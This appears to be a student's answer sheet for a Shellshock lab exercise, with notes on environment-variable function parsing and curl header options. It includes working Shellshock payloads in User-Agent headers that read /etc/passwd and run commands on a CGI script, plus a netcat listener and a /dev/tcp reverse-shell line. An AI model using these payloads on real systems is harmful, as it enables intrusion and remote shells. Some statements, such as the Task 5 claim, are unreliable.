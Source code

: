 Task1: "/bin/bash_shellshock" echo $foo didn't print foo as environment but "declare -f foo" printed the definition of foo as a function due to the 
    vulnerability of bash_shellshock.
    "bin/bash" echo $foo printed foo as an environment variable which has been passed by the parent, but "declare -f foo" didn't print the definition 
    since it is not considered as a function since it is not considered asa  function. 
    
 Task2: -v prints out the variables and values from the http packet. 
        -A sets the HTTP_USER_AGENT variable
        -e sets the HTTP_REFERER variable
        -H "AAAAAA: BBBBBB" creates HTTP_AAAAAA and sets it to value BBBBBB
        
        the -H, -A and -e can be used to create arbitary variables. 
        
  Task3: curl -A "() { echo; cat /etc/passwd;}" http://localhost/cgi-bin/myprog2.cgi
         curl -A "() { echo; bin/id;}" http://localhost/cgi-bin/myprog2.cgi
         curl -A "() { echo; touch /tmp/fil;}" http://localhost/cgi-bin/myprog2.cgi
         curl -A "() { echo; rm /tmp/fil;}" http://localhost/cgi-bin/myprog2.cgi
         It is only a writable file. 
 Task4: "nc -lv 9090" on the attacker machine
         The attacker machine acts as a linstener till it finds traffic in the same port it is listening to. 
         "bin/bash -i > /dev/tcp/10.2.6/9090 0<&1 2>&1
         In real attacks we have to inject the code in the victims machin; yet, for demonstration purposes, we're running the command directly on the victims machine. 
Task5: The attack was possible with "bash" intstead of "bash_shellshock"
